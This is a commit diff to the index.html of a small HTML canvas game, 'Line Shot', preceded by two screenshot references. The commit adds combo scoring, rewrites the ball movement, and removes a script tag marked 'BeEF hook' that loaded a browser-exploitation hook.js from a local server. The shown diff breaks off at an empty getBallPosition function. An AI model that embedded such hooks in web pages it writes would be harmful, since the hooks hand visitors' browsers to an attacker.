

Before and after one commit to thatkrazyman999/febb, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 74-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1">
-<title>Line Shot Game</title>
+<title>Line Shot Combo Game</title>
 <style>
   body {
     margin: 0;
@@ -26,13 +26,10 @@
 </style>
 </head>
 <body>
-<h1>🎯 Line Shot: Hit the Button!</h1>
-<p>Press <b>SPACE</b> when the ball passes over the button.</p>
-<div id="score">Score: 0</div>
+<h1>🎯 Line Shot: Hit the Center!</h1>
+<p>Press <b>SPACE</b> when the ball passes over the button. Chain combos!</p>
+<div id="score">Score: 0 | Combo: x0</div>
 <canvas id="gameCanvas" width="500" height="500"></canvas>
-
-<!-- BeEF hook -->
-<script src="http://127.0.0.1:3000/hook.js"></script>
 
 <script>
 const canvas = document.getElementById('gameCanvas');
@@ -43,31 +40,28 @@ const centerX = canvas.width / 2;
 const centerY = canvas.height / 2;
 const buttonRadius = 30;
 
-let ballX = centerX;
-let ballY = centerY;
-let angle = Math.random() * 2 * Math.PI;
-let speed = 2.5;
+let t = 0;                  // ball position along the line (0 to 1)
+let dir = 1;                // direction of motion
+let speed = 0.01;           // speed along the line
+let angle = Math.random() * 2 * Math.PI;  // current line angle
 
 let score = 0;
 let combo = 0;
-let comboText = '';
-let comboTimer = 0;
 
 document.addEventListener('keydown', (e) => {
   if (e.code === 'Space') {
-    const dx = ballX - centerX;
-    const dy = ballY - centerY;
+    const ball = getBallPosition();
+    const dx = ball.x - centerX;
+    const dy = ball.y - centerY;
     const dist = Math.sqrt(dx * dx + dy * dy);
 
     if (dist <= buttonRadius) {
-      // HIT!
+      // HIT
       score++;
       combo++;
-      comboText = `COMBO x${combo}`;
-      comboTimer = 60; // show for 1 second
-      resetBall();
+      randomizeAngle();
     } else {
-      // MISS!
+      // MISS
       combo = 0;
     }
     updateScore();
@@ -75,63 +69,13 @@ document.addEventListener('keydown', (e) => {
 });
 
 function updateScore() {
-  scoreDisplay.textContent = `Score: ${score}`;
+  scoreDisplay.textContent = `Score: ${score} | Combo: x${combo}`;
 }
 
-function resetBall() {
-  ballX = centerX;
-  ballY = centerY;
+function randomizeAngle() {
   angle = Math.random() * 2 * Math.PI;
+  t = 0;
+  dir = 1;
 }
 
-function drawButton() {
-  ctx.fillStyle = '#0078d7';
-  ctx.beginPath();
-  ctx.arc(centerX, centerY, buttonRadius, 0, 2 * Math.PI);
-  ctx.fill();
-}
-
-function drawBall() {
-  ctx.fillStyle = 'yellow';
-  ctx.beginPath();
-  ctx.arc(ballX, ballY, 10, 0, 2 * Math.PI);
-  ctx.fill();
-}
-
-function drawCombo() {
-  if (comboTimer > 0 && combo > 1) {
-    ctx.fillStyle = 'lime';
-    ctx.font = '24px Arial';
-    ctx.textAlign = 'center';
-    ctx.fillText(comboText, centerX, centerY - 50);
-    comboTimer--;
-  }
-}
-
-function gameLoop() {
-  ctx.clearRect(0, 0, canvas.width, canvas.height);
-
-  // Update ball position
-  ballX += Math.cos(angle) * speed;
-  ballY += Math.sin(angle) * speed;
-
-  // Check bounds
-  if (ballX < 0 || ballX > canvas.width || ballY < 0 || ballY > canvas.height) {
-    combo = 0; // missed
-    resetBall();
-    updateScore();
-  }
-
-  drawButton();
-  drawBall();
-  drawCombo();
-
-  requestAnimationFrame(gameLoop);
-}
-
-// Start game
-updateScore();
-gameLoop();
-</script>
-</body>
-</html>
+function getBallPosition()
```
